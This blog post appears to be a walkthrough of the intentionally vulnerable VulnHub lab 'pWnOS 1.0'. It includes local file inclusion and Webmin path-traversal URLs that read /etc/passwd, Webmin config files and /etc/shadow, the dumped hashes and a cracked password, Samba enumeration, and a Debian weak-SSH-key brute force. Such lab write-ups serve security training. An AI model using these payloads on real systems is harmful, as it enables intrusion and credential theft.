 ```yaml
---
layout: post
title: "pWnOS: 1.0"
date: 2015-05-10 12:13:34 +0200
comments: true
categories: [vulnhub, pwnos]
---
```

Image: [pWnOS: 1.0](https://www.vulnhub.com/entry/pwnos-10,33/)

Nmap output:
{% codeblock %}
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
139/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
445/tcp   open  netbios-ssn Samba smbd 3.X (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
{% endcodeblock %}

After a while of browsing the web page, we found trivial LFI vulnerability:
{% codeblock %}
http://193.168.0.25/index1.php?help=true&connect=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
dhcp:x:100:101::/nonexistent:/bin/false
syslog:x:101:102::/home/syslog:/bin/false
klog:x:102:103::/home/klog:/bin/false
mysql:x:103:107:MySQL Server,,,:/var/lib/mysql:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
{% endcodeblock %}

We can find a lot of information querying the samba service too:
{% codeblock %}
root@kali:~/vulnhub/pwnos# nmblookup -A 192.168.0.25
Looking up status of 192.168.0.25
        UBUNTUVM        <00> -         H <ACTIVE>
        UBUNTUVM        <03> -         H <ACTIVE>
        UBUNTUVM        <20> -         H <ACTIVE>
        ..__MSBROWSE__. <01> - <GROUP> H <ACTIVE>
        MSHOME          <1d> -         H <ACTIVE>
        MSHOME          <1e> - <GROUP> H <ACTIVE>
        MSHOME          <00> - <GROUP> H <ACTIVE>

        MAC Address = 00-00-00-00-00-00

root@kali:~/vulnhub/pwnos# smbclient -L\\UBUNTUVM -I 192.168.0.25 -N
Anonymous login successful
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]

        Sharename       Type      Comment
        ---------       ----      -------
        home            Disk      Home Directory for vmware User
        print$          Disk      Printer Drivers
        IPC$            IPC       IPC Service (ubuntuvm)
Anonymous login successful
Domain=[MSHOME] OS=[Unix] Server=[Samba 3.0.26a]

        Server               Comment
        ---------            -------
        UBUNTUVM             ubuntuvm

        Workgroup            Master
        ---------            -------
        MSHOME               UBUNTUVM
{% endcodeblock %}

There are a few enumeration modules in metasploit:
{% codeblock %}
msf exploit(usermap_script) > use auxiliary/scanner/smb/pipe_auditor
msf auxiliary(pipe_auditor) > setg RHOSTS 192.168.0.25
RHOSTS => 192.168.0.25
msf auxiliary(pipe_auditor) > exploit

[*] 192.168.0.25 - Pipes: \netlogon, \lsarpc, \samr, \eventlog, \InitShutdown, \lsass, \ntsvcs, \srvsvc, \wkssvc
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

msf auxiliary(smb_enumshares) > use auxiliary/scanner/smb/smb_enumusers
msf auxiliary(smb_enumusers) > exploit

[*] 192.168.0.25 UBUNTUVM [ games, nobody, proxy, syslog, www-data, root, news, bin, mail, dhcp, daemon, sshd, man, lp, mysql, gnats, backup, sys, klog, vmware, list, irc, sync, uucp ] ( LockoutTries=0 PasswordMin=5 )

msf auxiliary(smb_login) > use auxiliary/scanner/smb/smb_lookupsid
msf auxiliary(smb_lookupsid) > exploit

[*] 192.168.0.25 PIPE(LSARPC) LOCAL(UBUNTUVM - 5-21-2952145021-507220021-499326276) DOMAIN(MSHOME - )
[*] 192.168.0.25 USER=nobody RID=501
[*] 192.168.0.25 GROUP=None RID=513
[*] 192.168.0.25 USER=root RID=1000
[*] 192.168.0.25 USER=daemon RID=1002
[*] 192.168.0.25 USER=bin RID=1004
[*] 192.168.0.25 USER=sys RID=1006
[*] 192.168.0.25 USER=sync RID=1008
[*] 192.168.0.25 USER=games RID=1010
[*] 192.168.0.25 USER=man RID=1012
[*] 192.168.0.25 USER=lp RID=1014
[*] 192.168.0.25 USER=mail RID=1016
[*] 192.168.0.25 USER=news RID=1018
[*] 192.168.0.25 USER=uucp RID=1020
[*] 192.168.0.25 USER=proxy RID=1026
[*] 192.168.0.25 USER=www-data RID=1066
[*] 192.168.0.25 USER=backup RID=1068
[*] 192.168.0.25 USER=list RID=1076
[*] 192.168.0.25 USER=irc RID=1078
[*] 192.168.0.25 USER=gnats RID=1082
[*] 192.168.0.25 USER=dhcp RID=1200
[*] 192.168.0.25 USER=syslog RID=1202
[*] 192.168.0.25 USER=klog RID=1204
[*] 192.168.0.25 USER=mysql RID=1206
[*] 192.168.0.25 USER=sshd RID=1208
[*] 192.168.0.25 USER=vmware RID=3000
[*] 192.168.0.25 UBUNTUVM [nobody, root, daemon, bin, sys, sync, games, man, lp, mail, news, uucp, proxy, www-data, backup, list, irc, gnats, dhcp, syslog, klog, mysql, sshd, vmware ]
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endcodeblock %}

The webmin is vulnerable and the exploit in metasploit:
{% codeblock %}
       Name: Webmin File Disclosure
     Module: auxiliary/admin/webmin/file_disclosure
    License: Metasploit Framework License (BSD)
       Rank: Normal
  Disclosed: 2006-06-30
{% endcodeblock %}

Basically the exploitation could be performed on command line to disclose arbitrary file, for example:
{% codeblock %}
http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.conf

http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.users

http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/webmin/miniserv.pem
{% endcodeblock %}

{% codeblock %}
http://192.168.0.25:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow

root:$1$LKrO9Q3N$EBgJhPZFHiKXtK0QRqeSm/:14041:0:99999:7:::
daemon:*:14040:0:99999:7:::
bin:*:14040:0:99999:7:::
sys:*:14040:0:99999:7:::
sync:*:14040:0:99999:7:::
games:*:14040:0:99999:7:::
man:*:14040:0:99999:7:::
lp:*:14040:0:99999:7:::
mail:*:14040:0:99999:7:::
news:*:14040:0:99999:7:::
uucp:*:14040:0:99999:7:::
proxy:*:14040:0:99999:7:::
www-data:*:14040:0:99999:7:::
backup:*:14040:0:99999:7:::
list:*:14040:0:99999:7:::
irc:*:14040:0:99999:7:::
gnats:*:14040:0:99999:7:::
nobody:*:14040:0:99999:7:::
dhcp:!:14040:0:99999:7:::
syslog:!:14040:0:99999:7:::
klog:!:14040:0:99999:7:::
mysql:!:14040:0:99999:7:::
sshd:!:14040:0:99999:7:::
vmware:$1$7nwi9F/D$AkdCcO2UfsCOM0IC8BYBb/:14042:0:99999:7:::
obama:$1$hvDHcCfx$pj78hUduionhij9q9JrtA0:14041:0:99999:7:::
osama:$1$Kqiv9qBp$eJg2uGCrOHoXGq0h5ehwe.:14041:0:99999:7:::
yomama:$1$tI4FJ.kP$wgDmweY9SAzJZYqW76oDA.:14041:0:99999:7:::
{% endcodeblock %}

Using john on /etc/shadow, we obtain credentials of user vmware for successful login to the system:
{% codeblock %}
h4ckm3           (vmware)
{% endcodeblock %}

The box could be rooted using standard vmsplice exploit.

However, there is another way to get user account. The script
[dowkd.pl](https://wiki.debian.org/SSLkeys#Testing_keys_using_dowkd.pl) ensures
us that the OpenSSL is vulnerable
([CVE-2008-0166](https://security-tracker.debian.org/tracker/CVE-2008-0166)). 

We download and unpack already generated RSA keys from offensive-security repository:
{% codeblock %}
$ wget https://github.com/offensive-security/exploit-database-bin-sploits/raw/master/sploits/debian_ssh_rsa_2048_x86.tar.bz2
{% endcodeblock %}

Because usage of weak private keys could be blacklisted on our server, we use
the following
[instructions](https://unix.stackexchange.com/questions/109908/public-key-f36e8704ea2db360ff42ad26671794d5-blacklisted-see-ssh)
to enable them. 

Basically adding this directive to our ssh_config file should be sufficient:
{% codeblock %}
UseBlacklistedKeys yes 
{% endcodeblock %} 

In exploit-db, we use python script to try every possible private key:
{% codeblock %}
$ python platforms/linux/remote/5720.py /tmp/rsa/2048 192.168.0.25 obama

Key Found in file: dcbe2a56e8cdea6d17495f6648329ee2-4679
Execute: ssh -lobama -p22 -i /tmp/rsa/2048/dcbe2a56e8cdea6d17495f6648329ee2-4679 192.168.0.25
{% endcodeblock %}
